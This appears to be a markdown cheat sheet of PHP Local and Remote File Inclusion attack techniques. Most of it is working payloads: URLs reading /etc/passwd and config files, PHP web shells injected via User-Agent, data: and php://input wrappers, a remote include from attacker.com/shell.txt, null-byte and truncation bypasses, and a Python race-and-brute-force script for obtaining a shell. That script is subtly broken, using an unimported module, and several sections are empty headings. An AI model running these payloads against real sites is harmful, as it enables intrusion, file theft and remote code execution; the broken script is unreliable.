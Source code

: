 # Local File Inclusion

## 1) Direct Local Include
```
http://site.com/lfi.php?page=/etc/passwd
```

## 2) php://filter
```
http://www.site.com/lfi.php?page=php://filter/resource=config.php

http://www.site.com/lfi.php?page=php://filter/convert.base64-encode/resource=config.php
```

## 3) /proc/self/environ
Request's user agent can be found there

```
GET /lfi.php?page=/proc/self/environ&cmd=id HTTP/1.1
Host: www.site.com
User-Agent: <?php echo shell_exec($_GET['cmd']);?>
```

## 4) Including images
If image.jpg contains php code it will be interpreted.

```
http://www.site.com/lfi.php?page=upload/image.jpg
```

## 5) Zip and Phar wrappers
File must be zip archive with any extension

```
http://www.site.com/lfi.php?page=zip://image.zip#shell.php

http://www.site.com/lfi.php?page=phar://image.phar#shell.php
```

## 6) File Upload

It requires php interpreter that crashes upon infinite recursive inclusion, thus not removing temporary file.

1. Upload a file and trigger a self-inclusion
2. Repeat step 1 until successful attack
3. Bruteforce inclusion of /tmp/php[0-9a-zA-Z]{6}
4. Shell

We have 62**6 possible values -> 56800235584 filenames for temporary uploaded files
Birthday paradox can be applied and it results with about 280000 requests to find valid file with more than 50% chance.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

## 7) Session Files

## 8) PHPInfo Script

## 9) Temporary Files - Windows

## 10) Logs

# Remote File Inclusion
Works when allow_url_include in php.ini is set to TRUE

## 1) Direct Remote Include
Including php file in text format directly
```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt
```

## 2) Data:text/plain
Including php code through data stream
```
http://www.site.com/lfi.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

http://www.site.com/lfi.php?page=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7Pz4=
```

## 3) php://input

```
POST /lfi.php?page=php://input&cmd=cd HTTP/1.1
Host: www.site.com
Content-Lenth: 39

<?php echo shell_exec($_GET['cmd']);?>

```

# Fighting with extensions

## 1) Null Bytes
Add null byte that will terminate string

```
http://www.site.com/lfi.php?page=/etc/passwd%00

http://www.site.com/lfi.php?page=/etc/passwd%2500
```

## 2) Truncation

Cut extension by creating long string
```
http://www.site.com/lfi.php?page=../../../../../../../../../../../../etc/passwd
```

```
http://www.site.com/lfi.php?page=/etc/passwd..............................
```

```
http://www.site.com/lfi.php?page=/etc/passwd.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
```
